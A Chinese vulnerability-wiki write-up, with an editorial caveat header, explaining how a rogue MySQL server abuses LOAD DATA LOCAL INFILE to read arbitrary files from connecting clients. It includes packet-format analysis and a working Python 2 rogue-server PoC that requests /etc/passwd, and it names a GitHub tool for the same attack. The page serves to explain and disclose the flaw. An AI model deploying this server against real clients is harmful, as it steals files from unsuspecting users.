


# MySQL LOAD DATA 读取客户端任意文件

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：客户端连接攻击者服务器且支持/允许LOCAL INFILE；labMySQL5.7.21/macOS10.14
- 证据范围：详细协议数据包和独立修正PoC；比Adminer0更准确列client capability

### 本次正文校订

- 运行时标注：原示例含 Python 2 专用语法或模块，不能直接按 Python 3 运行；不在本次校订中迁移或执行。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- P0协议头解释错误：称长度1字节后3字节序号，应核对MySQL的长度/序号字段定义
- 把LOCAL INFILE request叫ResponseTABULAR不准确，后文已有正式类型名
- 列表所有客户端均适用过宽，依赖具体驱动版本和配置
- 脚本Python2、固定包长和文件名，示例不宜当通用工具
- 保留独立协议分析，关联Adminer入口条目而非按同攻击方式删重

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

一、漏洞简介
------------

### LOAD DATA INFILE

mysql的LOAD DATA
INFILE语句主要用于读取一个文件的内容并且存入一个表中。通常有两种用法，分别是：

    load data infile "/etc/passwd" into table TestTable fields terminated by '分隔符';
    load data local infile "/etc/passwd" into table TestTable fields terminated by '分隔符';

第一个语句是读取服务器上的/etc/passwd文件并存入TestTable表中，第二个语句是读取客户端本地的/etc/passwd文件并存入TestTable表中。我们要利用的是LOAD
DATA LOCAL INFILE。官方文档中也提出了这个问题（PS：Google翻译的不是很准确）

二、漏洞影响
------------

三、复现过程
------------

### 分析数据包

测试环境：MacOS 10.14Mysql 5.7.21

使用tcpdump抓取3306端口的数据包

#### 1.服务器向客户端发送greeting问候包，包含服务端banner信息

#### 2.客户端发送登陆请求包，包含用户名密码，以及含有LOAD DATA LOCAL选项的客户端banner信息。

#### 3.然后是客户端初始化的一些查询，比如select database(); select @\@version\_comment;

#### 4.找到我们执行的LOAD DATA INFILE数据包，第一个包看起来比较正常，是客户端发起的Request Que

#### 5.但是紧接着服务器返回了一个包含刚才所要LOAD DATA INFILE的文件名/Users/smi1e/Desktop/test.txt的数据包。

#### 6.然后客户端向服务端发送了/Users/smi1e/Desktop/test.txt文件的内容：

如果我们在客户端发送查询之后，返回一个Response
TABULAR数据包，即服务端向客户端发送了文件名的数据包，如果我们把这个文件名设置成我们想要读取的文件，那么我们就可以读取客户端的任意文件了。正如官方文档所写的
In theory, a patched server could be built that would tell the client
program to transfer a file of the server\'s choosing rather than the
file named by the client in the [LOAD
DATA](https://dev.mysql.com/doc/refman/8.0/en/load-data.html)
statement.也就是说想要读取哪个文件是服务端说了算，跟客户端所request的文件名没有关系。

最重要的是伪造的服务端可以在任何时候回复一个file-transfer
请求，不一定非要是在客户端发送LOAD DATA LOCAL数据包的时候。不过如果想要利用此特性，客户端必须具有CLIENT\_LOCAL\_FILES即(Can use
LOAD DATA
LOCAL)属性。如果没有的话，就要在连接mysql的时候加上\--enable-local-infile。

### 搭建MySQL服务端

主要分为

-   向 MySQL Client 发送Server Greeting
-   等待 Client 端发送一个Query Package
-   回复一个file transfer请求

我们需要知道如何构造File Transfer和Server
Greeting数据包，这些包的格式都可以在 MySQL 的官方文档上找到。

File Transfer数据包格式：Protocol::LOCAL\_INFILE\_Request

并且我们需要等待一个来自 Client
的查询请求，才能回复这个读文件的请求。不过我们在上面看到客户端在连接成功后会自动的做一些初始化的查询。

官方也给了exmaple

    0c 00 00 01 fb 2f 65 74    63 2f 70 61 73 73 77 64    ...../etc/passwd

数据包的内容其实是从\\xfb开始的，这个字节代表包的类型，后面紧跟要读取的文件名。前面的0x0c是数据包的长度（从
\\xfb 开始计算），长度后面的三个字节\\x00\\x00\\x01是数据包的序号。

Greeting数据包格式：官方文档，如果不会构造可以直接拷贝抓到的数据包然后改一下长度、文件名之类的。

这里直接拷贝大佬归纳的格式。

    '\x0a',  # Protocol
    '6.6.6-lightless_Mysql_Server' + '\0',  # Version
    '\x36\x00\x00\x00',  # Thread ID
    'ABCDABCD' + '\0',  # Salt
    '\xff\xf7',  # Capabilities, CLOSE SSL HERE!
    '\x08',  # Collation
    '\x02\x00',  # Server Status
    "\x0f\x80\x15", 
    '\0' * 10,  # Unknown
    'ABCDABCD' + '\0',
    "mysql_native_password" + "\0"

### poc

来源于https://www.vesiluoma.com/abusing-mysql-clients/的POC，测了一个多小时都没成功，最后发现里面
\#3payload写错了，我给改了下。

    #!/usr/bin/python
    #coding: utf8
    import socket

    # linux :
    #filestring = "/etc/passwd"
    # windows:
    #filestring = "C:\Windows\system32\drivers\etc\hosts"
    HOST = "0.0.0.0" # open for eeeeveryone! ^_^
    PORT = 3306
    BUFFER_SIZE = 1024

    #1 Greeting
    greeting = "\x5b\x00\x00\x00\x0a\x35\x2e\x36\x2e\x32\x38\x2d\x30\x75\x62\x75\x6e\x74\x75\x30\x2e\x31\x34\x2e\x30\x34\x2e\x31\x00\x2d\x00\x00\x00\x40\x3f\x59\x26\x4b\x2b\x34\x60\x00\xff\xf7\x08\x02\x00\x7f\x80\x15\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x68\x69\x59\x5f\x52\x5f\x63\x55\x60\x64\x53\x52\x00\x6d\x79\x73\x71\x6c\x5f\x6e\x61\x74\x69\x76\x65\x5f\x70\x61\x73\x73\x77\x6f\x72\x64\x00"
    #2 Accept all authentications
    authok = "\x07\x00\x00\x02\x00\x00\x00\x02\x00\x00\x00"

    #3 Payload
    #数据包长度
    payloadlen = "\x0c"
    padding = "\x00\x00"
    payload = payloadlen + padding +  "\x01\xfb\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    s.bind((HOST, PORT))
    s.listen(1)

    while True:
        conn, addr = s.accept()

        print 'Connection from:', addr
        conn.send(greeting)
        while True:
            data = conn.recv(BUFFER_SIZE)
            print " ".join("%02x" % ord(i) for i in data)
            conn.send(authok)
            data = conn.recv(BUFFER_SIZE)
            conn.send(payload)
            print "[*] Payload send!"
            data = conn.recv(BUFFER_SIZE)
            if not data: break
            print "Data received:", data
            break
        # Don't leave the connection open.
        conn.close()

ps: 实测 下面这个项目比较好用，上面的poc还需要改长度和内容的16进制值Github还有一个项目：https://github.com/allyshka/Rogue-MySql-Server

该特性适用于：MySQL Client、 PHP with mysqli、Python with
MySQLdb、Python3 with mysqlclient、Java with JDBC Driver等。
